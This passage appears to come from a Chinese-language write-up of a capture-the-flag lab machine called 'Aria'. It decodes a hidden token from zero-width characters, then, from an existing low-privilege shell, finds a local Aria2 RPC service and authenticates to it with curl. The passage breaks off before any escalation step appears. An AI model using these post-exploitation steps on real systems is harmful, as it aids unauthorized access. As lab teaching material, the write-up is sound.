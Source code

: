 这些看似空白的字符实际上是**零宽度字符 (Zero-width characters)**，一种隐写术技术。我们将这段包含隐藏信息的文本复制到在线解码工具（如 [[Stegzero](https://stegzero.com/)](https://stegzero.com/)）中进行解码。

![image-20250815210924708](http://7r1UMPHK.github.io/image/20250918191857357.webp)

解码后得到一个关键信息：`token: maze-sec`。

# **四、内核服务利用与 Root 提权**

## **4.1 内部服务探测**

利用已有的shell，查看目标服务器上监听的网络端口。

```bash
www-data@Aria:/home/aria$ ss -tnlp
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         128              127.0.0.1:6800             0.0.0.0:*       
...
```

我们发现一个仅在本地 `127.0.0.1` 监听的端口 `6800`。结合靶机名 "Aria"，我们推测这可能是 **Aria2** 下载工具的RPC服务。

## **4.2 Aria2 RPC 漏洞利用**

Aria2 提供了一个 JSON-RPC 接口用于远程控制。我们来验证这个猜测并尝试利用它。

1. **验证服务**
   使用 `curl` 访问该接口，返回了一个JSON-RPC错误，证实了我们的猜想。

   ```bash
   www-data@Aria:/home/aria$ curl http://127.0.0.1:6800/jsonrpc
   {"id":null,"jsonrpc":"2.0","error":{"code":-32600,"message":"Invalid Request."}}
   ```

2. **绕过认证**
   尝试调用一个方法，如 `aria2.getVersion`，服务返回 "Unauthorized"，说明RPC接口设置了认证。

   ```bash
   www-data@Aria:/home/aria$ curl -s http://127.0.0.1:6800/jsonrpc -H 'Content-Type: application/json' -d '{"jsonrpc":"2.0","method":"aria2.getVersion","id":"Q1"}'
   {"id":"Q1","jsonrpc":"2.0","error":{"code":1,"message":"Unauthorized"}}
   ```

   此时，我们联想到之前通过零宽度字符解密得到的 `token: maze-sec`。Aria2 RPC支持使用 `--rpc-secret` 进行令牌认证。我们将此token作为参数加入请求中。

   ```bash
   www-data@Aria:/home/aria$ curl -s http://127.0.0.1:6800/jsonrpc \
   >   -H 'Content-Type: application/json' \
   >   -d '{
   >     "jsonrpc":"2.0",
   >     "method":"aria2.getVersion",
   >     "id":"Q1",
   >     "params":["token:maze-sec"]
   >   }'
   {"id":"Q1","jsonrpc":"2.0","result":{"enabledFeatures":[...],"version":"1.35.0"}}
   ```
